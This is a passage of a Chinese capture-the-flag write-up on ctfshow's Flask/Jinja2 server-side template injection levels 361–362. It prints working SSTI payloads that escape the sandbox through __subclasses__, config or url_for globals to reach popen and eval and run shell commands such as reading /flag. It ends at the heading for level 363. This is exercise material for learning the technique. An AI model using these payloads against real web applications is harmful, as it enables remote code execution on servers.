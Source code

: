 ```yaml
---
title: ctfshow-ssti
id: ctfshow-ssti
date: 2021-08-11 13:33:33
sidebar_position: 12
---
```




对ssti一直是粗略的了解，这里做点题巩固一下

> 简单来说，SSTI 的最终目的是能够逃逸出 Jinja2的沙盒，然后执行任意的python代码。如果能够获取到 builitins 也就能得到了 python 的内建对象，也就可以调用 python 的任意内建函数了

在此之前可以看一下：
[总结 - ctf中flask的ssti(一) - Morouu的大狗窝 ●'◡'● (morblog.cc)](https://morblog.cc/posts/2946623354/)

## 361

无过滤

```jinja2
?name={{''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
```

## 362

上题的方法用不了了，`{{''.__class__.__mro__[1].__subclasses__()[132]}}`，过滤了os._wrap_close

```
可以用{%%}来进行遍历和条件判断，让它指向os._wrap_close
```

```jinja2
{% for i in ''.__class__.__mro__[1].__subclasses__() %}
	{% if i.__name__=='_wrap_close' %}
		{% print i.__init__.__globals__['popen']('cat /flag').read() %}
	{% endif %}
{% endfor %}
```

或者是利用已有函数找到`__builtins__`，然后直接直接从 `__builtins__ `的内置对象中取内置的` eval 函数`

```jinja2
{{config.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}

{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
```

当然还有很多rce的方法，self、request等等都可以

## 363_过滤引号
